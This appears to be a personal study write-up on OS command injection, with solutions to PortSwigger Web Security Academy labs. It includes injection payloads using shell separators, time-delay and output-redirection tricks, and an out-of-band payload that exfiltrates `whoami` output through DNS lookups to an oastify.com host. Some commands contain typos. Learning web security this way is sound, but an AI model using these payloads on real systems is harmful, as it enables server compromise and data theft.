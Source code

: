 # OS command injection

It's about injecting commands  on the server which is running an application and fully compromise the data as well as application.

If a application usages the following request to view the stock 

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

In the background something like  the following code might be running

```
stockreport.pl 381 29
```

As there is no defence again OS command injection attacker could run 


```
& echo aiwefwlguh &
```

which may give the following error 

```
Error - productID was not provided
aiwefwlguh
29: command not found
```


## Useful commands  
| Purpose of Command        | Linux        | Windows         |  
|---------------------------|--------------|-----------------|  
| Name of current user      | `whoami`     | `whoami`        |  
| Operating system          | `uname -a`   | `ver`           |  
| Network configuration     | `ifconfig`   | `ipconfig /all` |  
| Network connections       | `netstat -an`| `netstat -an`   |  
| Running processes         | `ps -ef`     | `tasklist`      |  
 



## Blind OS command injection vulnerabilities

Most of the instances are based on blind OS command injection which means, there is no response return from the command within it's `HTTP` response. 


Let's say and feedback application is being using where email is being sent using mail command.

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

The output from the mail command is not returned on the application's responses. 

**Detecting blind OS command injection using time delays**

We can use time delay to check if os command is being executated or not, One of the best method is to use `ping` command as it will let us specify the number of ICMP packets to sent.

```
& ping -c 10 127.0.0.1 &
``` 
This command causes the application to ping its loopback network adapter for 10 seconds. 

## Exploiting blind OS command injection by redirecting output

If an application is serving files from `/var/www/static` we can redirect the output of the command to the static directory 

```
& whoami /var/www/static/0xtheM7.txt &
```


## Exploiting blind OS command injection using out-of-band (OAST) techniques

We can inject command that will tirgger an out of bound network interaction 

```
& nslookup himansu.com.np &
```

```
& nslookup 0xthem7.xyz &
```


## Ways of injecting OS commands

Characters used for both unix based system and windows which can be chained together.


```
&
&&
|
||
```
Commands for unix based system only

```
;
```
```
Newline (0x0a or \n) 
```

To perform inline command injection the following characters can be used.

```
`
```

```
$
```

Sometimes the output comes with `"` or `'` which could block the attack in this situation you may need to use the [meta characters](https://en.wikipedia.org/wiki/Metacharacter) according to the shell.


# Labs
## Lab: OS command injection, simple case

Check the stock and send the following request 
```
POST / product / stock HTTP / 2
Host: 0 a240078040afaa68551a563009200e3.web - security - academy.net
Cookie: session = QVkvVxREjzeXTb4B1zF470CS39mKcuhx
User - Agent: Mozilla / 5.0(X11; Linux x86_64; rv: 138.0) Gecko / 20100101 Firefox / 138.0
Accept: *
/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a240078040afaa68551a563009200e3.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0a240078040afaa68551a563009200e3.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=2&storeId=1;whoami
```

## Lab: Blind OS command injection with time delays

Payload used to solve the lab 

```
email=x||ping+-c+10+127.0.0.1||
```

Assuming this is injected into a parameter (`email`) in a backend system that uses it unsafely like:

```
somecommand --email=$email
```

Email is being controlled by attacker as we are filling the form


```
email=x||ping+-c+10+127.0.0.1||
```

It get's split in 

`x` → just a placeholder or dummy value

`||` → logical OR in the shell

`ping` -c 10 127.0.0.1 → ping localhost 10 times

`||` → another OR (used to chain commands or ensure execution)



As `email=x` is going to fail ping command will be triggered. 

You can also run on your terminal 

```
0xtheM7 || whoami
```

```
echo 0xtheM7 || whomami
```

The first command will run `whoami` as there is no command such as `0xtheM7` or Logical OR will run `whoami` command but in case of second on we wil be runngin `echo` command 



## Lab: Blind OS command injection with output redirection

Payload used to solve the lab 

```
csrf=2g6DRob8aEXHozDiwXDVj2UERt46YtmP&name=Coolcool&email=x||whoami+>+/var/www/images/0xtheM7.txt||&subject=cool&message=cool
```

The we fetched the output over 

https://YOURINSTANCE//image?filename=0xtheM7.txt


## Lab: Blind OS command injection with out-of-band interaction

Payload used to solve the lab 


```
csrf=vGk1Dn16qDq6NL7e0FV7fWmNmPOLMzFX&name=Himansu&email=x||nslookup+ld2qv0chx7z7doolkvdjryla117svij7.oastify.com||&subject=Cool&message=Cool
```

In this we have used the same bypass mechanism however we used internal command `nslookup` so that we can find out it it's hitting out server or not. 

## Lab: Blind OS command injection with out-of-band data exfiltration 
Payload used to solve the lab 


```
csrf=rcLcNvCAFojt490aCvcJ520UERrBXVly&name=Coool&email=x||nslookup+`whoami`.q3uvl52mncpc3teqa03oh3bfr6xxlq9f.oastify.com||&subject=Cool&message=Cool
```

Here we ran command ```whoami``` using backtick ``` `whoami` ``` which is used to run inline command and thus complete DNS query become 

```
{outputOfWhoami}.q3uvl52mncpc3teqa03oh3bfr6xxlq9f.oastify.com
```

And under the collaborator we could find the username which eventually solved the lab.




# Prevention 

1. Never use the os command you can find some alternative or you can use sandbox 
2. User strong input validation 
3. Validating sytax, characters,  or whitespaces.

